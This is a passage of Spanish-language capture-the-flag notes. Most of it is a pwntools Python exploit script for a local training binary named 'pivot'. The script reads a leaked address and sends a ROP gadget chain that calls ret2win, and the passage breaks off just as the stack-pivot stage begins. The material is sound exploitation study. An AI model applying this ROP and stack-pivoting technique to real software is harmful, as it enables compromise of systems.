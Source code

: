 ## Script

Ya podemos crear un script en [[python]] utilizando [[pwntools]]:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

context.update(arch='amd64')
exe = './pivot'


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        exit()
    else:
        return process([exe] + argv, *a, **kw)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

# Leer la dirección de pivot del output del binario
io.recvuntil(b':')
pivot_address = io.recvline().strip()  # Capturar la línea con la dirección
pivot_address = int(pivot_address, 16)  # Convertirla de cadena hexadecimal a número

log.info(f'Pivot address: {hex(pivot_address)}')    #DEBUG

offset = b'A'*40
addr_offset = p64(0x117)    # PLT offset
addr = p64(pivot_address)  # 1st input destination
foothold_plt = p64(0x400720)    # Obtained from uselessFunct
foothold_got = p64(0x601040)    # Obtained from readelf

xchgrax_rsp_ret = p64(0x4009bd)
poprax_ret = p64(0x4009bb)
add_rax_rbp_ret = p64(0x4009c4)
poprbp_ret = p64(0x4007c8)
movrax_addrrax_ret = p64(0x4009c0)
call_rax = p64(0x4006b0)

# LOAD PAYLOAD IN 1ST INPUT

payload = foothold_plt               # call foothold_plt first
payload += poprax_ret                # get the adress of foothold_got into rax
payload += foothold_got
payload += movrax_addrrax_ret        # get the effective adress of foothold_got into rax
payload += poprbp_ret                # get the offset into rbp
payload += addr_offset
payload += add_rax_rbp_ret           # add the offset to get the address of ret2win 
payload += call_rax                  # call ret2win

io.recvuntil(b'> ')
io.sendline(payload)

# MAKE STACK PIVOTING IN SECOND INPUT

stack_pivoting = offset
```
